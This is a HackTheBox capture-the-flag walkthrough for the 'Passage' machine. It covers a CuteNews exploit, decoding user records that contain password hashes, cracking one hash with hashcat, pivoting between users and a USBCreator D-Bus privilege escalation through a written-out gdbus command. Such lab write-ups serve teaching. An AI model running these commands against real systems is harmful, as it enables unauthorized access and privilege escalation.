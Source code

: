 ```yaml
---
layout: default
title: Passage
parent: HackTheBox
nav_order: 6
---
```

![](pictures/logo-passage.PNG)


## Table of contents
{: .no_toc .text-delta }



- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}



## [](#header-2)Summary:

- Enumerate Vulnerable version of CuteNews
- Exploit vulnerability to pop a shell
- Pivot into more privileged user(s)
- Escalate privileges with USBCreator D-Bus exploit


## [](#header-2)Recon:

Running an aggressive nmap scan I can see that there is a open ssh port and a apache webserver running on port 80.


![](pictures/nmap-passage.png)


Exploring the target host's website we get the following page:


![](pictures/index-passage.png)


At the bottom we see that the site is running on "CuteNews".


![](pictures/index1-passage.png)


![](pictures/cute-passage.png)





Searchsploit gifts us a mighty(and easy to use) exploit.



Once we use the exploit I pop into a rather restrictive shell within the web dir.


![](pictures/exploit-passage.png)


We also get some hashes to crack but to enumerate who the users may be I followed the some of the exploit code and end up on with the below encrypted info.


![](pictures/lines-passage.png)


Which we can decrypt from base 64 into the following:

```bash
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";
a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"a:2:{s:4:"site";s:0:"";s:5:"about";s:0:"";}";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

```

Now we know which password hashes match to which users.



## [](#header-2)Intrusion:


To get a better shell I downloaded a reverse php shell from my host and catch the connection with netcat.


![](pictures/phpshell-passage.png)


I was logged in as www-data and had little to no access to much.


At around this time my hashcat that I ran earlier with 
-m 1400 = Sha256

```bash

 hashcat -m 1400  hashes.txt /usr/share/wordlists/rockyou.txt  

```

 the SHA-256 hashes came back with one result, which belongs to the user paul.


```bash
 e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

 ```

 ## [](#header-2)Lateral Movement:


 To sign is as paul with "su" I had to switch my shell with:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```


Still not getting much of anywhere with Paul's account, I aimed to switch to the user nadav for two reasons:

1. nadav was the only other user I found in the /home dir.
2. nadav had more privileges and was apart of sudo group.

Looking in paul's authorized_keys file within ~/.ssh I found nadav's public ssh key.


![](pictures/key-passage.png)
Then I finally get into nadav's account and get the user flag.

![](pictures/phpshell-passage.png)



## [](#header-2)Privilege Escalation:


My goal from here is to escalate privileges and get my ass evolved to root user.


![](pictures/meme-passage.png)

After searching for awhile I find a .viminfo file on nadav's /home dir with the help of the ls -a command.

```bash
cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:q
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'1  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# Jumplist (newest first):
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# History of marks within files (newest to oldest):

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0

> /etc/dbus-1/system.d/com.ubunu.USBCreator.conf
```


Having no idea what "com.ubunu.USBCreator.conf" was I googled and found a very interesting [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) to say the least.


I saw the article was written by the man himself nadav, so this was my first hint I was on the right path.

Essentially, the exploit allows us to create/overwrite arbitrary files as root with no password as long as the attacker(me) has access to the sudoers group(which nadav has). 


Naturally, my target with this was to overwrite the authorized_keys file in the /root/.ssh directory with nadav's.

With the following command:

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/a.txt /a.txt true
```


I was able to overwrite the file which was indicated by the ().

![](pictures/root-passage.png)


~~~Root!~~~



This was a really fun box especially on the lateral movement/priv esc side of things.






